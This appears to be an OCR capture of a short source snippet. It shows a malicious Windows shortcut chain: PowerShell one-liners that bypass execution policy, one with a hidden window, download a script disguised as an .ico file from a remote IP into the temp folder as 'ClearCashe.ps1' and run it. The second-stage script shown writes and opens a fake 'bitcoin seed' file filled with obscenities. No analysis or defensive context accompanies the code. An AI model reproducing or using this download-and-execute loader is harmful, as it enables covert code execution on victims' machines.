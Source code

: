 # lnk 1

%WinDir%\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -NoExit -Command "& { iwr -Uri 'http://5.5.5.5/x/2.ico' -OutFile $env:TEMP\ClearCashe.ps1; & $env:TEMP\ClearCashe.ps1 }"


# ico 

$filePath = Join-Path $env:TEMP "my_seed.txt"

$content = "bitcoin seed: anus penis vagina gay shit fuck slut dick cock asshole suck"

$content | Out-File -FilePath $filePath -Encoding UTF8

Write-Host "Файл создан: $filePath"

Start-Process -FilePath $filePath

Pause


# ico2

%WinDir%\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -NoExit -Command "& { iwr -Uri 'http://..../x/2.ico' -OutFile $env:TEMP\ClearCashe.ps1; & $env:TEMP\ClearCashe.ps1 }"
